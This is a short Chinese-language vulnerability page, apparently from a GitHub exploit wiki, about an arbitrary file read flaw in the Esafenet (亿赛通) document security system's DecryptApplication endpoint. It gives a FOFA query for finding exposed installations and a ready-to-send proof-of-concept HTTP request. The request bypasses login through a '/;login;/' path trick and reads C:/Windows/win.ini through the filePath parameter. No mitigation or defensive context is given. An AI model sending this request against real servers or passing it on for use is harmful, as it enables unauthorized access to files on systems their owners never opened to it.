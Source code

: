 ## 亿赛通电子文档安全管理系统DecryptApplication存在任意文件读取漏洞

## fofa
```
app="亿赛通电子文档安全管理系统"
```

## poc
```
GET /CDGServer3/client/;login;/DecryptApplication?command=ViewUploadFile&filePath=C:///Windows/win.ini&uploadFileId=1&fileName1=test1111 HTTP/1.1
Host: :8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Content-Type: text/xml
Cache-Control: no-cache
Pragma: no-cache

```

![image](https://github.com/wy876/wiki/assets/139549762/86d020d4-0072-4e50-8825-3614ae930806)
